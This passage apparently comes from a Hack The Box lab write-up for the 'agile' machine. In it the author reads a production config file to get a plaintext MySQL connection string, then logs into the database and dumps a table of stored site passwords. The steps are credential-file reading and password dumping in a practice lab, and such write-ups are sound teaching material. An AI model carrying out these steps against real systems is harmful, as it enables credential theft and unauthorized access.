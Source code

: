 {% endcode %}

## Shell as corum

I can read the DB connection string from `/app/config_prod.json`

{% code overflow="wrap" %}
```apacheconf
www-data@agile:/app/app$ cat /app/config_prod.json 
{"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}
```
{% endcode %}

I use that to connect to the database and dump the passwords

```apacheconf
www-data@agile:/app/app$ mysql -u superpassuser -p
Enter password:
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| superpass          |
+--------------------+
3 rows in set (0.00 sec)
mysql> use superpass;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_superpass |
+---------------------+
| passwords           |
| users               |
+---------------------+
2 rows in set (0.00 sec)
mysql> select * from passwords;
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
| id | created_date        | last_updated_data   | url            | username | password             | user_id |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
|  3 | 2022-12-02 21:21:32 | 2022-12-02 21:21:32 | hackthebox.com | 0xdf     | 762b430d32eea2f12970 |       1 |
|  4 | 2022-12-02 21:22:55 | 2022-12-02 21:22:55 | mgoblog.com    | 0xdf     | 5b133f7a6a1c180646cb |       1 |
|  6 | 2022-12-02 21:24:44 | 2022-12-02 21:24:44 | mgoblog        | corum    | 47ed1e73c955de230a1d |       2 |
|  7 | 2022-12-02 21:25:15 | 2022-12-02 21:25:15 | ticketmaster   | corum    | 9799588839ed0f98c211 |       2 |
|  8 | 2022-12-02 21:25:27 | 2022-12-02 21:25:27 | agile          | corum    | 5db7caa1d13cc37c9fc2 |       2 |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
5 rows in set (0.00 sec)
```
